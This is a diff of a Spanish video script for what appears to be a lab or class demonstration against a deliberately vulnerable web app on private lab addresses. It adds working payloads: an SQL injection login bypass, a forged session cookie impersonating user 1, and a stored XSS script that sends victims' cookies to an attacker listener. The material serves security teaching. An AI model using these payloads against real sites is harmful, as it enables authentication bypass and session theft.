

Before and after one commit to MDiSc/vulnapxd, a Markdown page: docs/GUION_DEFENSA_VIDEO.md, the part around the change. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(video): actualizar comandos de Fase III para reflejar ejecucion exacta del usuario

````diff
--- a/docs/GUION_DEFENSA_VIDEO.md
+++ b/docs/GUION_DEFENSA_VIDEO.md
@@ -124,16 +124,22 @@
 
 ### PASO 3.1: Entrega del vector SQL Injection en `/api/login`
 
-* 🖥️ **Acción Visual:** En la terminal de Kali Linux, ejecutas la transmisión del vector SQLi enviando el archivo `payload_sqli.json` mediante `curl`.
-* ⌨️ **Comando a escribir:**
+* 🖥️ **Acción Visual:** En la terminal de Kali Linux, sobrescribes el archivo `payload_sqli.json` para asegurar el comentario sintáctico correcto y ejecutas la transmisión mediante `curl`.
+* ⌨️ **Comandos a escribir:**
   ```bash
+  cat << 'EOF' > payload_sqli.json
+  {
+    "username": "' OR 1=1 /*",
+    "password": "x"
+  }
+  EOF
   curl -i -X POST http://192.168.56.20:4000/api/login \
        -H "Content-Type: application/json" \
        -d @payload_sqli.json
   ```
 * 🗣️ **Lo que dices mientras ejecutas el comando y se recibe el `HTTP 200 OK`:**
-  > *"Iniciamos la Fase III: Entrega. La transmisión de nuestros vectores maliciosos se orquesta de manera puramente manual mediante `curl`, eludiendo por completo el uso de escáneres o herramientas automatizadas.*
-  > *En este primer paso, transmitimos el vector de Inyección SQL enviando el archivo `payload_sqli.json` como cuerpo de la petición hacia `/api/login`. El payload viaja dentro de la estructura JSON en la variable `username`. Al llegar al servidor, el middleware `express.json()` lo procesa e inyecta directamente en la consulta del backend sin sanitización previa, logrando el bypass de autenticación instantáneo."*
+  > *"Iniciamos la Fase III: Entrega. La transmisión de nuestros vectores maliciosos se orquesta de manera manual, eludiendo escáneres.*
+  > *En este primer paso, ajustamos nuestro vector de Inyección SQL para usar el delimitador `/*` (comentario en bloque) y lo enviamos hacia `/api/login`. Al llegar al servidor, el middleware `express.json()` lo procesa e inyecta directamente en la consulta del backend sin sanitización, logrando el bypass de autenticación instantáneo y emitiendo una cookie válida de administrador."*
 
 ---
 
@@ -146,24 +152,27 @@
        -H "Cookie: session=$COOKIE_VAL"
   ```
 * 🗣️ **Lo que dices mientras ejecutas el comando y ves la respuesta en pantalla:**
-  > *"Continuando con la entrega de vectores, inyectamos la cookie adulterada almacenada en `cookie_adulterada.txt` directamente dentro de las cabeceras HTTP de la petición GET hacia `/api/profile`.*
-  > *Este vector es transmitido directamente a nivel de protocolo HTTP antes de que alcance el middleware de control de sesión en Express.js. Como el servidor carece de verificación de integridad HMAC (CWE-345), la cabecera es procesada limpiamente por el backend, demostrando la entrega exitosa del vector de suplantación."*
+  > *"Continuando con la entrega, inyectamos la cookie adulterada (donde suplantamos el `userId` por `1`) directamente dentro de las cabeceras HTTP de la petición GET hacia `/api/profile`.*
+  > *Como el servidor carece de verificación de integridad HMAC (CWE-345), la cabecera es procesada limpiamente por el backend, demostrando la entrega exitosa del vector de suplantación y confirmando nuestra identidad como administrador."*
 
 ---
 
 ### PASO 3.3: Entrega del payload Stored XSS en `/api/message`
 
-* 🖥️ **Acción Visual:** Transmites el archivo `payload_xss.json` mediante una petición POST al endpoint de mensajería `/api/message`.
-* ⌨️ **Comando a escribir:**
+* 🖥️ **Acción Visual:** Aseguras el formato JSON escapando las comillas dobles internas del script XSS y lo transmites mediante una petición POST al endpoint `/api/message`.
+* ⌨️ **Comandos a escribir:**
   ```bash
+  cat << 'EOF' > payload_xss.json
+  {"receiverId": 1, "content": "<script>fetch(\"http://192.168.56.10:8888/?c=\"+encodeURIComponent(document.cookie),{mode:\"no-cors\"});</script>"}
+  EOF
   curl -i -X POST http://192.168.56.20:4000/api/message \
        -H "Content-Type: application/json" \
        -H "Cookie: session=$COOKIE_VAL" \
        -d @payload_xss.json
   ```
 * 🗣️ **Lo que dices mientras ejecutas el comando y sale `HTTP 200 OK`:**
-  > *"Finalmente, entregamos el vector de Stored XSS transmitiendo el cuerpo JSON del archivo `payload_xss.json` hacia el endpoint de mensajería interna `/api/message`.*
-  > *La etiqueta `<script>` con el código malicioso viaja directamente dentro de la propiedad `content` de `req.body`. El servidor procesa y almacena este contenido en la base de datos sin aplicar filtros de entrada ni escape de caracteres, completando exitosamente la entrega de todos nuestros vectores de ataque."*
+  > *"Finalmente, entregamos el vector de Stored XSS transmitiendo el cuerpo JSON hacia el endpoint de mensajería interna `/api/message`.*
+  > *La etiqueta `<script>` con el código malicioso viaja directamente en la propiedad `content`. El servidor procesa y almacena este contenido en la base de datos sin aplicar filtros de entrada ni escape de caracteres (CWE-79), completando exitosamente la entrega de todos nuestros vectores de ataque."*
 
 ---
 
````
